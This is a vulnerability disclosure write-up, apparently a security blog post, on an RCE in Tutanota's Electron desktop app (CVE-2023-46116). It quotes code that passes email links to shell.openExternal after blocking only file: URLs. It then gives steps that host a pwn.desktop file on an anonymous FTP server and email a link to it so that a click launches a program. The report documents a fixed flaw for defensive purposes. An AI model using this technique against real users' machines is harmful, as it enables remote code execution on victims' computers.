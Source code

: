+++
title = "The Plight of Unsanitized Function Calls"
date = "2023-10-22T21:28:41+05:30"
author = "Prajyot Chemburkar"
cover = "https://imgs.xkcd.com/comics/exploits_of_a_mom.png"
tags = ["Electron", "openExternal", "RCE"]
keywords = ["electron", "code execution"]
description = "Been researching electron app security recently, decided to look at Tutanota. Got an RCE"
showFullContent = false
readingTime = true
hideComments = true
draft = false
+++

# Introduction
*Tutanota is the world's most secure email service, easy to use and private by design. You get fully encrypted calendars and contacts with all our personal and business email accounts.* ~[The Tutanota Website](https://tutanota.com/)

# Debugging Setup
Tutanota fortunately is open source. So all you have to do is download the application source, spin up vscode or any IDE of your liking and read away. Or you can use [grep.app](https://grep.app) to look at its code, which is what I did in this case.

I particularly like using Ubuntu with the XFCE desktop environment, as it makes it simpler to demonstrate exploits, as we will see later.

# Methodology
My methodology for reviewing electron applications, at least when it comes to *electron specific* vulnerabilities, is quite simple: Use a bottom up approach. Grep for sinks and then trace the source.

# Stumbling Upon a Sink
One of the common functions that developers use in electron apps is `openExternal` from the `shell` module. This function opens URLs' using their default or native applications. As an example, if you pass a URL with the `https:` scheme, `shell.openExternal` will spawn your default browser to open it.

The problem with this is, if developers do not sanitize this function call, and pass it user-controlled URLs', then an attacker may make use of schemes like `file:`, `ftp:`, `smb:`, etc. to gain code execution on a victim's computer. There's a ton of URL schemes availble that can be used to abuse this "feature", more on that [here](https://positive.security/blog/url-open-rce).

I found this unsanitized call to `shell.openExternal` in Tutanota's source:

```js
private onNewWindow(details: HandlerDetails): { action: "deny" } {
    const parsedUrl = parseUrlOrNull(details.url)

    if (parsedUrl == null) {
        log.warn(TAG, "Could not parse url for new-window, will not open")
    } else if (parsedUrl.protocol === "file:") {
        // this also works for raw file paths without protocol
        log.warn(TAG, "prevented file url from being opened by shell")
    } else {
        // we never open any new windows directly from the renderer
        // except for links in mails etc. so open them in the browser
        this.electron.shell.openExternal(parsedUrl.toString()).catch((e) => {
            log.warn("failed to open external url", details.url, e)
            this.electron.dialog.showMessageBox({
                title: lang.get("showURL_alt"),
                buttons: [lang.get("ok_action")],
                defaultId: 0,
                message: lang.get("couldNotOpenLink_msg", { "{link}": details.url }),
                type: "error",
            })
        })
    }

    return {
        action: "deny",
    }
}
```

Looks like the devs are sort of aware of what `shell.openExternal` can do, hence the blocked `file:` scheme. But there are way too many other schemes that we can use to abuse this.

# Using FTP to gain RCE

Execute and authenticate to the Tutanota desktop version `3.118.8` AppImage on a Ubuntu Desktop with the XFCE environment.
![tuta-install](images/tuta-install.png)

On another machine, host an FTP server with anonymous access enabled. Create and place a `pwn.desktop` file in the FTP root, with the following content:
```sh
[Desktop Entry]
Exec=xcalc
Type=Application
```

Send an email to the email account logged in on tutanota containing a hyperlink pointing to the `pwn.desktop` file on the FTP server. Replace the corresponding values in the hyperlink: `ftp://username:password@ip-address/pwn.desktop`.
![tuta-send-mail](images/tuta-send-mail.png)

On the tutanota desktop application, click on the hyperlink in the email received. Observe that the calculator application opens. You may need to confirm execution of the application in some cases.
![tuta-rce](images/tuta-rce.png)

# Timeline
- September 26th 2023, 7:20 AM UTC, Reported to Tutanota
- September 26th 2023, 9:33 AM UTC, Fixed by Tutanota
- October 20th 2023, CVE-2023-46116 assigned
- NA, Report disclosed